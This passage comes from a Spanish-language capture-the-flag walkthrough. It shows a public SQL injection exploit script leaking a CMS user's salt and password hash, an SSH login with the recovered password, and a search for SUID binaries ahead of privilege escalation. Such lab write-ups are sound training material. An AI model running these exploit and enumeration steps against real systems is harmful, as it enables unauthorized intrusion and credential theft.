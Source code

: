 Le pondremos en uso y esperaremos a que nos de el `usuario` y la `contraseña`
```shell
parrot-hacking@SimpleCTF:~$ python 46635.py -u http://easyctf.thm/simple/

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

# [](#header-4)Acceso como usuario sin privilegios

Ahora accederemos por ssh al servidor con el usuario `mitch` y la contraseña `secret`
```shell
parrot-hacking@SimpleCTF:~$ ssh mitch@easyctf.thm -p 2222
mitch@easyctf.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```

Ahora nos pondremos en una _bash_
```shell
$ bash
mitch@Machine:~$
```

# [](#header-4)Escalado de Privilegios
Bueno ya tenemos shell como _mitch_ ahora vamos a ver si hay algun privilegio **SUID**
```shell
mitch@Machine:~$ find / -perm -4000 2>/dev/null
/bin/su
/bin/ping
/bin/mount
/bin/umount
/bin/ping6
/bin/fusermount
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```
